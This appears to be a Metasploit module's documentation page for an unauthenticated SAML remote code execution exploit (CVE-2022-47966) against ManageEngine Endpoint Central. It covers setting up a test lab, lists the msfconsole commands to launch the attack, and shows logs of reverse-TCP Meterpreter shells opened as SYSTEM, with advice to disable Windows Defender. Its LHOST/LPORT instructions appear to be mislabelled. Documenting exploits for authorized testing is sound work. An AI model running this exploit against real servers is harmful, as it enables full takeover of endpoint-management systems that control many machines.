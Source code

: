 ## Vulnerable Application
This exploits an unauthenticated remote code execution vulnerability that affects Zoho ManageEngine Endpoint Central and MSP
versions 10.1.2228.10 and below. See [ManageEngine security advisory](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html).
Due to a dependency to an outdated library (Apache Santuario version 1.4.1), it is possible to execute arbitrary code
by providing a crafted samlResponse XML to the Endpoint Central SAML endpoint.

Note that the target is only vulnerable if SAML-based SSO is configured and enabled.

## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this free one for testing: https://mocksaml.com/
Download the IdP xml information by pressing the button `Download Metadata`.

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and select ManageEngine Endpoint Central product
with any version (e.g. 10.1.2228.10). You can then have access to all the versions and platform installers.
After downloading the Windows Installer, launch the installer and select all the default options
or make adjustments on the port you want to use by clicking Next.
(you can skip the Registration for Technical Support part, it is optional).

When the installation is done, select Start Endpoint Central Server and click Finish.
This will start a browser and get you to the login page.

### Enable SAML 2.0 SSO
- Go to http://localhost:8020 or other port that you configured during the installation.
- Log in as admin (default admin/admin)
- Go to http://localhost:8020/webclient#/uems/admin/saml-configuration
- Click on SAML Authentication at the ​​Global Settings menu at the left pane.

In Identity Provider Details section:
- Select `Other` option in the  `IdP provider` field
- Provide a name in the `IdP name` field
- Select `Username` option in the `ID Name` field
- Select the `Metadata` radio button in the `Configuration by uploading` field
- And last but not least upload the downloaded xml configuration file from Mock SAML in the `Upload metadata` field
- Click save and you are done

## Verification Steps
- [ ] Start `msfconsole`
- [ ] use `exploit/windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966`
- [ ] set `LHOST` with target IP
- [ ] set `LPORT` with target port
- [ ] set `TARGET` with `0` (Windows EXE dropper) or `1` (Windows Command)
- [ ] `exploit`

You should get a `shell` or `meterpreter` session depending on the target and payload settings.

**Note:** `Windows Defender` might get in the way, depending on the version your are running so disable it on your Windows Machine.
The same applies for `Windows Defender Firewall` if you can not access the  application. Your port might be blocked.

In the test cases below, ManageEngine Endpoint Central version `10.1.2228.5` was tested on Microsoft Server 2019 Standard
with Windows Defender disabled otherwise all standard payloads will fail.

## Options

### TARGETURI
The Endpoint Central SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. Endpoint Central has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.

## Scenarios

### Endpoint Central version 10.1.2228.5 - Target 1 (Windows Command)
```
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set rhosts 192.168.100.58
rhosts => 192.168.100.58
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows Command for cmd/windows/powershell/meterpreter/reverse_tcp
[*] Sending stage (175686 bytes) to 192.168.100.58
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.58:55450) at 2023-01-29 07:19:10 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 4100 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```
### Endpoint Central version 10.1.2228.5 - Target 0 (Windows EXE dropper)
```
msf6 exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows EXE Dropper for windows/x64/meterpreter/reverse_tcp
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.58
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.58:55489) at 2023-01-29 07:22:47 +0000

meterpreter > shell
Process 7364 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```

## Limitations
No limitations identified.
